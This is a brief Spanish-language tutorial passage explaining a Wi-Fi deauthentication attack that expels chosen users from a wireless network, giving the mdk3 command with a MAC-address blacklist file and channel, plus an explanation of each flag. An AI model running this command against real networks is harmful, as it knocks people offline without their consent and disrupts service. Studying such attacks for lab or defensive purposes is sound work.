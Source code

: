 Este ataque lo que hace es expulsar a los usuarios que se encuentran en la red, esto no deja de ser un *deAuth*.

Para esto vamos a generar una lista negra de los usuarios que deseamos expulsar, guardamos las direcciones macs de los dispositivos en un txt.

	mdk3 wlan1mon d -w blackList.txt -c 6

- d *hace referencia el tipo de ataque*
- -w blackList.txt *el nombre del archivo donde se encuentras las direcciones macs*
- -c 6 *el canal donde se encuentra el AC*

